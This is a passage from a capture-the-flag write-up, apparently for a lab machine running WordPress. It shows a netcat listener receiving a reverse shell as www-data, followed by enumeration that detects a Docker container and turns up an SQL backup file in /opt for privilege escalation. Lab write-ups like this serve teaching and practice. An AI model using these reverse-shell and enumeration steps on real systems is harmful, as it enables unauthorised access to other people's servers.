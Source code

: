 ```bash
root@darkness:~# rlwrap nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.189.
Ncat: Connection from 10.10.10.189:51606.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@blog:/var/www/html/wp-content/themes/twentytwenty/logs$
```

## Privesc to user

Now that we have our `initial shell`, let us enumerate the system to get access as user to the box and read user.txt.

### Enumerating as www-data

Enumerating the machine, I quickly noticed that we are in a `docker-environment`. This was easy identifiable by either the `.dockerenv` file in the root-directory or via the ip-address.

```bash
www-data@blog:/$ ip addr
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
16: eth0@if17: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:1e:00:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.30.0.10/24 brd 172.30.0.255 scope global eth0
       valid_lft forever preferred_lft forever
www-data@blog:/$ ls -alh /
ls -alh /
total 88K
drwxr-xr-x   1 root root 4.0K Apr 23 18:44 .
drwxr-xr-x   1 root root 4.0K Apr 23 18:44 ..
-rwxr-xr-x   1 root root    0 Apr 23 18:44 .dockerenv
```

With this information in the back of our minds, let us further enumerate the system. The only interesting users on the systems are `root` and `www-data`. Looking at the `/opt` directory we can find an interesting file:

```bash
www-data@blog:/opt/wordpress$ ls -alh
ls -alh
total 1.2M
drwxr-xr-x 1 root root 4.0K Apr 24 06:39 .
drwxr-xr-x 1 root root 4.0K Apr 13 13:37 ..
-rw-r--r-- 1 root root 1.2M Apr 24 06:39 backup-13-04-2020.sql
```
